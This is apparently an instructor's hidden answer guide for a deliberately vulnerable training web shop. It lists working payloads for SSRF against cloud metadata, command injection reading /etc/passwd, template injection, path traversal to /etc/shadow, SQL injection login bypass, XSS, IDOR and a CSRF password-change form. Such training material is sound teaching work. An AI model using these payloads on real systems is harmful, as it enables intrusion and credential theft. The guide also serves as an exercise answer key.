 # 🔒 CONFIDENTIAL - SECURITY TESTING GUIDE 🔒
# FOR EDUCATIONAL USE ONLY - KEEP THIS HIDDEN FROM END USERS

## 🎯 Hidden Vulnerability Testing Endpoints

### **SSRF Testing (Admin Panel)**
**Location:** `/admin` → URL Validation Tool
**Test Payloads:**
```
http://169.254.169.254/latest/meta-data/
http://localhost:5001/admin
file:///etc/passwd
http://0.0.0.0:22
gopher://127.0.0.1:80/
```

### **Command Injection (Admin Panel)**
**Location:** `/admin` → Network Ping Tool  
**Test Payloads:**
```
127.0.0.1; ls -la
google.com && cat /etc/passwd
8.8.8.8 | whoami
localhost; id
127.0.0.1 & cat /etc/hosts
```

### **SSTI Testing (Admin Panel)**
**Location:** `/admin` → Template Renderer
**Test Payloads:**
```
{{ 7*7 }}
{{ config }}
{{ request.environ }}
{{ ''.__class__.__mro__[1].__subclasses__() }}
{{ config.items() }}
```

### **Directory Traversal**
**Location:** `/view_file?file=`
**Test Payloads:**
```
../../../../etc/passwd
../../../etc/hosts  
../app.py
/etc/shadow
../requirements.txt
../../../../proc/version
```

## 🕵️ Attack Scenarios - Step by Step

### **1. SQL Injection (Login Page)**
```
Username: admin' OR '1'='1' --
Password: anything
```
**Advanced:**
```
Username: ' UNION SELECT 1,username,password,4,5 FROM users --
Password: anything
```

### **2. XSS (Product Comments)**
```html
<script>alert('XSS Found!')</script>
<img src=x onerror=alert('XSS')>
<svg onload=alert('XSS')>
```

### **3. IDOR (Receipt Access)**
**Method:** Change receipt ID in URL
```
/receipt/1  (try 2, 3, 4, etc.)
/receipt/999 (test boundary)
```

### **4. CSRF (Password Change)**
**Create malicious HTML file:**
```html
<form action="http://127.0.0.1:5001/change_password" method="POST">
  <input type="hidden" name="new_password" value="hacked123">
  <input type="submit" value="Click me!">
</form>
```

### **5. Business Logic - Coupon Abuse**
**Method:** Reuse same coupon multiple times
```
Coupon: SAVE10 (use on multiple purchases)
Coupon: WELCOME20 (stack with others)
Coupon: MEGA50 (expired but still works)
```

### **6. Insecure Deserialization (Dashboard)**
**Location:** User Preferences save/load
**Method:** Intercept and modify pickle data

### **7. Broken Access Control**
**Test:** Access admin panel without authentication
```
Direct URL: /admin (no login required!)
```

## 🔍 Discovery Paths for Users

**Intended User Journey:**
1. Browse site normally (looks legitimate)
2. Notice small blue "i" buttons  
3. Click "i" buttons to learn about vulnerabilities
4. Practice testing based on information provided
5. Discover additional attack vectors through exploration

**Key Discovery Points:**
- Login page has SQL injection hints in debug output
- Admin panel is accessible without authentication
- File viewer accepts path parameters
- Comments display raw HTML
- Receipt URLs are predictable

## 📝 Notes for Instructors

**This file should remain HIDDEN from students/trainees:**
- Keep in separate directory or rename with obscure name
- Don't link from main application
- Reference only in private documentation

**Educational Value:**
- Provides realistic discovery experience
- Allows progressive learning
- Maintains challenge level
- Prevents immediate exploitation without learning

## 🚨 Security Reminder

**CRITICAL:** This application is INTENTIONALLY VULNERABLE
- Never deploy to production
- Use only in isolated environments  
- Always inform users this is for educational purposes
- Monitor for misuse in training environments
